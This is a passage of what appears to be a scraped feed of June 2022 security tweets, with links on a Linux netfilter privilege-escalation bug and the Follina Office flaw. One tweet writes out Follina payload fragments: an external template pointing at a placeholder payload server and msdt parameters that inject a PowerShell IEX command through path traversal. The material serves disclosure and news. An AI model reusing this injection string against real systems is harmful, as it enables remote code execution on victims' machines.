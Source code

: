 * https://www.zerodayinitiative.com/blog/2022/6/1/is-exploiting-a-null-pointer-deref-for-lpe-just-a-pipe-dream

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# oss_security
**https://twitter.com/oss_security/status/1532315596653596672 _at 2022-06-02, 10:58:01_**
<blockquote>
CVE-2022-1972: out-of-bound write in Linux netfilter subsystem leads to local privilege escalation: Posted by 张子明(明程) on Jun 02Hello,
 
 An out-of-bound write vulnerability was identified within the
 netfilter subsystem
 which can be exploited to… https://t.co/lLqUCOykeo
</blockquote>

* http://dlvr.it/SRV16J

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1532189210425577472 _at 2022-06-02, 02:35:49_**
<blockquote>
0-day [CVE-2022-30190] MS Offic RCE aka msdt follina

Target = "http://&lt;payload_server&gt;/payload.html!"
TargetMode = "External"

IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../Windows/System32

https://t.co/Bci6gVBWJn https://t.co/hc2TcRoOQt
</blockquote>

* https://github.com/PwnC00re/PoC-CVE-2022-30190?fbclid=IwAR07oJZ7iL0ZyuAXNOflJyttKodx7Tba9Zmp_38ulPpZHpi6GgCc4eYMxZg

<table><tr>